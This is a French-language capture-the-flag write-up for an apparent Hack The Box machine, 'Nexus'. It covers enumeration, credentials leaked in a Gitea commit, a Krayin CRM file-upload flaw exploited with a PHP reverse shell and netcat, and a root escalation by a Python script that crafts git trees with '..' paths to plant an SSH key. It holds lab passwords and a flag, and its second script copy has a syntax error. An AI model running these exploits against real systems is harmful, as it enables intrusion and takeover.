







#### About

`Nexus` is an easy-difficulty Linux machine that features an exposed Gitea repository leaking credentials and a job posting that reveals valid usernames. The leaked credentials provide access to `Krayin CRM`, which is vulnerable to `CVE-2026-38526`, leading to a shell as `www-data`. Further enumeration of the `Krayin CRM` configuration files reveals additional credentials that allow `SSH` access. Service enumeration reveals a `Gitea` template sync service vulnerable to directory traversal, which is leveraged to gain a shell as `root`.

## Enumeration 

Nous allons commencer par l enumeration des ports et des services en cours d execution ainsi que la version de ces services avec l outil `nmap`

```
nmap -sC -sV 10.129.234.54
```

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0c:4b:d2:76:ab:10:06:92:05:dc:f7:55:94:7f:18:df (ECDSA)
|_  256 2d:6d:4a:4c:ee:2e:11:b6:c8:90:e6:83:e9:df:38:b0 (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://nexus.htb/
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

On a deux ports 
- le port 22 pour le service ssh et utilise l algorithme ed25519 
- le port 80 qui et on a un domaine nexus.htb

Avant de continuer nous allons ajouter ce domaine dans notre fichier /etc/hosts pour la resolution 

```bash
   sudo nano /etc/hosts 
   # puis ajouter 
   # <IP> nexus.htb
```

En examinant une page web on a que le index.html qui contient deux mails interresant 

-- careers@nexus.htb ou on envoie le post 
-- j.matthew@nexus.htb qui est le mail du mamager 

##### Eumeration des sous domaines 

Vu que le domaine nexus.htb ne contient de bon, nous allons utiliser l outil `ffuf` pour decouvrir les sous somaines 

```bash
   ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://nexus.htb/ -H "Host:FUZZ.nexus.htb" -fs 154
```

On decouvre deux sous domaines git et billing. 
Avant de continuer nous allons ajouter ca a notre fichier /etc/hosts 

```bash
   sudo nano /etc/hosts 
   #puis ajouter git.nexus.htb billing.nexus.htb
```
Lorsqu on accede a la billing.nexus.htb, on remarque la page de connexion de krayin CRM qui est une solution permettant aux entreprises de gerer de facon centralisee leur relation client et autres. Vu qu on a pas les credentials nous allons chercher dans le git.nexus.htb

sous le  sous domaine git.nexus.htb  on decouvre un repo krayin-docker-setup. A l interieur de ce repo, on decouvre un commit (9b817fa4e073d12fc43952acb09f3067b2f17adf) qui contient un mot de passe fuiter dont l admin croyait completement supprimer 
```
   DB_PORT=3306
   DB_DATABASE=krayin
   DB_USERNAME=krayin
   DB_PASSWORD=N27xh!!2ucY04
```

Maintenant que nous avont le mot de passe `N27xh!!2ucY04` nous allons le tester  sur le login page (http://billing.nexus.htb/admin/login) avec le mail obtenu en haut `j.matthew@nexus.htb`. 

Boom on est est connecter en tant qu admin. En examinant l interface, on remarque que la version de krayin CRM est le 2.2.0 qui apres un petit recherche google indique qu il est vulnerable au CVE-2026-38526 entrainant un RCE. La vulnerabiliter survient a cause d une mauvaise gestion des types MIME entraintenant un upload des fichiers PHP malveillant. 

lien du payload PHP pour le reverse shell https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php 

Pour exploiter cette vulnerabiliter, sur le dashboard, esayer de composer un email puis cliquer sur inserer pour inserer une image quelconque et intercepter la requete avec burpsuite 
Intercepter la requete POST d upload du blob (/admin/tinymce/upload ) , cliquer sur R pour envoyer ca au Repeater puis modifier le nom du fichier image par le nom de votre fichier php puis remplacer le contenu de l image par le payload malveillant pus envoyer avec send. 

LOrsqu on envoie on recoit une url qui nous indique ou le fichier est stocker, dans notre cas 
```json
{"location":"http:\/\/billing.nexus.htb\/storage\/tinymce\/bd0586d07a72e0a3d92e261624f2017c.php"}
```

Pour obtenir le reverse shell, respter en ecoute avec netcat 
```bash
   nc -lnvp <PORT>
```

Puis acceder au fichier pour declancher l execution 

Apres exploitation, on obtient un shell avec l utilisateur www-data 
```bash
   ─$ nc -lnvp 4444
   listening on [any] 4444 ...
   connect to [10.10.15.143] from (UNKNOWN) [10.129.234.54] 47730
   Linux nexus 6.8.0-111-generic #111-Ubuntu SMP PREEMPT_DYNAMIC Sat Apr 11 23:16:02 UTC 2026 x86_64 x86_64 x86_64 GNU/Linux
   01:05:53 up  4:30,  1 user,  load average: 2.48, 1.98, 1.10
   USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU  WHAT
   jones             10.10.15.143     01:05    3:41m  0.00s  0.12s sshd: jones [priv]
   uid=33(www-data) gid=33(www-data) groups=33(www-data)
   sh: 0: can't access tty; job control turned off
```

Une fois connecter on remarque un fichier .env dans /var/www/krayin qui contient un mot de passe 

```bash
DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=krayin
DB_USERNAME=krayin
DB_PASSWORD=y27xb3ha!!74GbR
DB_PREFIX=
```

Vu qu on a un utilisateur nommer jones, nous allons essayer de nous connecter par ssh en utilisant ce mot de passe `y27xb3ha!!74GbR`

```bash
    ssh jones@nexus.htb 
    #password y27xb3ha!!74GbR
```

Boom on est connecter

recuper le user flag

```bash
jones@nexus:~$ ls -l
total 4
-rw-r----- 1 root jones 33 Sep  5 21:38 user.txt
```

user flag : 18e90142a7dbb030d50cddf184df940e

### Escalade de priviledge 

L enumeration des fichiers avec les bits SUID, des capabilites, l inspection des taches cron, l utilisation de l outil linpeas n a egalement pas abouti, j ai esayer de voir la liste des timers 

Note : un timer  est un fichier d'unité systemd qui permet de planifier et de déclencher l'exécution d'un service de manière automatique à une date précise ou après un certain délai.

POur lister les timers nous utilisons la commande suivante 
```bash
systemctl list-timers
```
En inspectant la liste des timers, on observe celui ci 
```bash
  gitea-template-sync.timer      gitea-template-sync.service
```

En inspectant la configuration du serive avec 
```bash
   systemctl cat gitea-template-sync.service
```

On observce ceci 

```
jones@nexus:~$ systemctl cat gitea-template-sync.service
# /etc/systemd/system/gitea-template-sync.service
[Unit]
Description=Sync Gitea templates
After=network-online.target

[Service]
Type=oneshot
User=root
ExecStart=/usr/bin/python3 /etc/gitea/template-sync.py
TimeoutStartSec=50s
```

On remarque dans le ExecStart qu il execute un script python avec le user root. 
Nous allons inpecter les permissions du script pour voir 
```bash
   ls -l /etc/gitea/template-sync.py
```

REsultat 

```
 jones@nexus:~$ ls -l /etc/gitea/template-sync.py
-rw-r--r-- 1 git git 4184 May 11 18:47 /etc/gitea/template-sync.py
```

on remarque que le script appartient plutot a l utilisateur git qui appartient au groupe git du coup methodiquement pour de base exploiter cela on doit d abord prendre co ntrol du compte git mais en observant le contenu du script python 

```python
jones@nexus:~$ cat /etc/gitea/template-sync.py
import os
import sys
import json
import subprocess
import time
import urllib.request

GITEA_URL = "http://localhost:3000"
REPO_ROOT = "/var/lib/gitea/data/gitea-repositories"
STAGING_DIR = "/home/git/template-staging"
LOG_FILE = "/var/log/template-sync.log"

def log(msg):
    ts = time.strftime("%Y-%m-%d %H:%M:%S")
    line = "[%s] %s" % (ts, msg)
    print(line, flush=True)
    try:
        os.makedirs(os.path.dirname(LOG_FILE), exist_ok=True)
        with open(LOG_FILE, 'a') as f:
            f.write(line + '\n')
    except:
        pass

def load_config():
    config = {}
    for path in ['/etc/gitea/template-sync.conf', '/opt/forge/app/.env']:
        try:
            with open(path) as f:
                for line in f:
                    line = line.strip()
                    if line and not line.startswith('#') and '=' in line:
                        k, v = line.split('=', 1)
                        config[k.strip()] = v.strip()
        except:
            pass
    return config

def get_token():
    cfg = load_config()
    return cfg.get('GITEA_API_TOKEN')

def get_template_repos(token):
    url = "%s/api/v1/repos/search?limit=50" % GITEA_URL
    req = urllib.request.Request(url, headers={
        'Authorization': 'token %s' % token
    })
    try:
        with urllib.request.urlopen(req) as resp:
            data = json.loads(resp.read())
            repos = data.get('data', data) if isinstance(data, dict) else data
            return [r for r in repos if r.get('template', False)]
    except Exception as e:
        log("API error: %s" % e)
        return []

def sync_template(repo_info):
    owner = repo_info['owner']['login']
    name = repo_info['name'].lower()
    bare_path = os.path.join(REPO_ROOT, owner, "%s.git" % name)
    stage_path = os.path.join(STAGING_DIR, owner, name)

    if not os.path.isdir(bare_path):
        log("  repo not found: %s" % bare_path)
        return

    # Read tree entries from the bare repository
    try:
        GIT = ['git', '-c', 'safe.directory=*']
        result = subprocess.run(
            GIT + ['ls-tree', '-r', 'HEAD'],
            cwd=bare_path,
            capture_output=True, text=True, timeout=10
        )
        if result.returncode != 0:
            log("  ls-tree failed: %s" % result.stderr.strip())
            return
    except Exception as e:
        log("  ls-tree error: %s" % e)
        return

    entries = []
    for line in result.stdout.strip().split('\n'):
        if not line:
            continue
        parts = line.split('\t', 1)
        if len(parts) != 2:
            continue
        meta, filepath = parts
        mode, objtype, objhash = meta.split()
        if objtype == 'blob':
            entries.append((mode, objhash, filepath))

    if not entries:
        log("  no files in template")
        return

    # Extract files to staging directory
    for mode, objhash, filepath in entries:
        target = os.path.join(stage_path, filepath)
        target_dir = os.path.dirname(target)

        try:
            os.makedirs(target_dir, exist_ok=True)
            GIT = ['git', '-c', 'safe.directory=*']
            cat_result = subprocess.run(
                GIT + ['cat-file', 'blob', objhash],
                cwd=bare_path,
                capture_output=True, timeout=10
            )
            if cat_result.returncode != 0:
                continue

            with open(target, 'wb') as f:
                f.write(cat_result.stdout)

            if mode == '100755':
                os.chmod(target, 0o755)
            else:
                os.chmod(target, 0o644)

            log("  synced: %s" % filepath)
        except Exception as e:
            log("  error syncing %s: %s" % (filepath, e))

def main():
    log("Template sync starting")

    token = get_token()
    if not token:
        log("No API token found")
        sys.exit(1)

    templates = get_template_repos(token)
    log("Found %d template repo(s)" % len(templates))

    for repo in templates:
        name = repo['full_name']
        log("Syncing template: %s" % name)
        sync_template(repo)

    log("Template sync complete")

if __name__ == '__main__':
    main()
jones@nexus:~$ 
```

On remarque le script recupere les repos de type template. UNe fois recuperer, il fait le ls -tree pour lister l arboressance , ensuite utilise le os.path.join pour recuperer le chemin entrainant une vulnerabiliter de path transversal du au fait que la fonction os.path.join n assainie pas le chemin donc on peu se retrouver avec un chemin ../../../etc/shadow 

Lorsque nous retournons sur git.nexus.htb et nous nous connectons avec les identifiants on a un succes 

pour exploiter cela nous allons de base creer un repo git nommer privesc avec le compte de jones et activer l option template.

sur notre machine locale 
- Generer une paire de cle ssh 

ssh-keygen -t ed25519 -f /tmp/.k -N ''

- une fois fait cela , cloner le repo github creer  (privesc.git) 

```bash
git clone http://jones:'y27xb3ha!!74GbR'git.nexus.htb/jones/privesc.git
```

Une fois cloner nous executons ce script python 

```python
#!/usr/bin/env python3
import hashlib
import zlib
import os
import subprocess
import sys
import time

def write_obj(data, t):
    h = ("%s %d" % (t, len(data))).encode() + b"\x00"
    s = h + data
    sha = hashlib.sha1(s).hexdigest()
    d = os.path.join(".git", "objects", sha[:2])
    os.makedirs(d, exist_ok=True)
    p = os.path.join(d, sha[2:])
    if not os.path.exists(p):
        open(p, "wb").write(zlib.compress(s))
    return sha

def entry(mode, name, sha):
    return ("%s %s" % (mode, name)).encode() + b"\x00" + bytes.fromhex(sha)

if not os.path.isdir(".git"):
    print("Run inside git repo")
    sys.exit(1)

r = subprocess.run(["cat", "/tmp/.k.pub"], capture_output=True, text=True)
if r.returncode != 0:
    print("ssh-keygen -t ed25519 -f /tmp/.k -N ''")
    sys.exit(1)

key = r.stdout.strip() + "\n"
blob = write_obj(key.encode(), "blob")
readme = write_obj(b"# Template\n", "blob")
ssh_t = write_obj(entry("100644", "authorized_keys", blob), "tree")
cur = write_obj(entry("40000", ".ssh", ssh_t), "tree")
fir = write_obj(entry("40000", "root", cur), "tree")

for i in range(4):
    fir = write_obj(entry("40000", "..", fir), "tree")

root = write_obj(entry("100644", "README.md", readme) + entry("40000", "..", fir), "tree")
ts = int(time.time())
c = "tree %s\nauthor x <x@x> %d +0000\ncommitter x <x@x> %d +0000\n\ninit\n" % (root, ts, ts)
sha = write_obj(c.encode(), "commit")

os.makedirs(os.path.join(".git", "refs", "heads"), exist_ok=True)
open(os.path.join(".git", "refs", "heads", "main"), "w").write(sha + "\n")
print("Done: " + sha)
```

excution 

```bash
python3 exploit.py
```
puis forcer un push github 

```bash
  git push origin -u main --force 
```
attendre quelque seconde puis se connecter par ssh avec la cle 

```bash
 ssh -i /tmp/.k root@nexus.htb

payload
```py
#!/usr/bin/env python3
import hashlib
import zlib
import os
import subprocess
import sys
import time

def write_obj(data, t):
    h = ("%s %d" % (t, len(data))).encode() + b"\x00"
    s = h + data
    sha = hashlib.sha1(s).hexdigest()
    d = os.path.join(".git", "objects", sha[:2])
    os.makedirs(d, exist_ok=True)
    p = os.path.join(d, sha[2:])
    if not os.path.exists(p):
        open(p, "wb").write(zlib.compress(s))
    return sha

def entry(mode, name, sha):
    return ("%s %s" % (mode, name)).encode() + b"\x00" + bytes.fromhex(sha)

if not os.path.isdir(".git"):
    print("Run inside git repo")
    sys.exit(1)

r = subprocess.run(["cat", "/tmp/.k.pub"], capture_output=True, text=True)
if r.returncode != 0:
    print("ssh-keygen -t ed25519 -f /tmp/.k -N ''")
    sys.exit(1)

key = r.stdout.strip() + "\n"
blob = write_obj(key.encode(), "blob")
readme = write_obj(b"# Template\n", "blob")
ssh_t = write_obj(entry("100644", "authorized_keys", blob), "tree")
cur = write_obj(entry("40000", ".ssh", ssh_t), "tree")
fir = write_obj(entry("40000", "root", cur), "tree")

for i in range(4):
    fir = write_obj(entry("40000", "..", fir), "tree")

root = write_obj(entry("100644", "README.md", readme) + entry("40000", "..", fir), "tree")
ts = int(time.time())
c = "tree %s\nauthor x <x@x> %d +0000\ncommitter x <x@x> %d +0000\n\ninit\n" % (root, ts, ts)
sha = write_obj(c.encode(), "commit")

os.makedirs(os.path.join(".git", "refs", heads"), exist_ok=True)
open(os.path.join(".git", "refs", "heads", "main"), "w").write(sha + "\n")
print("Done: " + sha)
```

executer avec python3 

puis faire un push 

git push -u origin main 

attendre 1 min puis se connecter 

ssh -i /tmp/.k root@nexus.htb














'''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''
